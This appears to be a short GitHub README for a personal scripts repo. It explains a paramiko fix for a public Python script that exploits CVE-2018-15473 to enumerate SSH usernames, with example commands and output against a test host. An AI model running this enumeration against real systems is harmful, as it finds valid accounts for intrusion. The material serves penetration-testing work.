 # Scripts
I will be putting fixed, modified or created scripts here that are not necessarily part of a project.

# ssh-check-username.py
Original: https://bugfuzz.com/stuff/ssh-check-username.py<br />
I had an issue running this script with the current Kali. The problem is with changes to paramiko. See: https://github.com/paramiko/paramiko/issues/1314

The solution is to replace instances of the text '_handler_table' with '_client_handler_table'.<br />
I will place the fixed file on this repo.<br />

The purpose of this script is to use a recent vulnerability, CVE-2018-15473, to enumerate users on a system through ssh.<br />
Usage:<br />
root@kali:/media/veracrypt1/2_linux/9F18c/scripts/python# python ssh-check-username.py 10.0.0.20 bob<br />
[*] Invalid username<br />
root@kali:/media/veracrypt1/2_linux/9F18c/scripts/python# python ssh-check-username.py 10.0.0.20 root<br />
[+] Valid username<br />
